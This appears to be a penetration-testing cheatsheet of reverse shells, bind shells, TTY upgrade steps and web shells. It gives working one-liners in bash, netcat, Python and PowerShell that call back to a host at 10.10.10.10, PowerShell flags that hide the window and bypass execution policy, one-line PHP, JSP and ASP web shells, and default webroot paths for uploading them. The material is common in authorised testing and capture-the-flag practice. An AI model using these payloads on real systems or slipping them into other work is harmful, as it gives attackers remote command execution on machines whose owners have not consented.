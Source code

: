## Reverse shells Cheatsheet

### spawn a shell
*bash*

bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

*powershell*
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"

*useful site*

https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/

## bind shells (target listens instead of host) (use nc IP Port on host)

*bash*
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f

*python*
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'

*powershell*
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();


## Upgrading TTY

python -c 'import pty; pty.spawn("/bin/bash")'
ctrl+Z
stty raw -echo
fg
echo $TERM
stty size
export TERM=xterm-256color (input van $TERM variable)
stty rows 67 (size1) columns 318 (size2)

## Web Shell

*php*

<?php system($_REQUEST["cmd"]); ?>

*jsp*

<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>


*asp*

<% eval request("cmd") %>


*Uploading the webshell*

| Web Server | Default Webroot             |
|------------|-----------------------------|
| Apache     | /var/www/html/              |
| Nginx      | /usr/local/nginx/html/      |
| IIS        | c:\inetpub\wwwroot\         |
| XAMPP      | C:\xampp\htdocs\            |

--> use URL in browser ip:port/shell.php?cmd=id




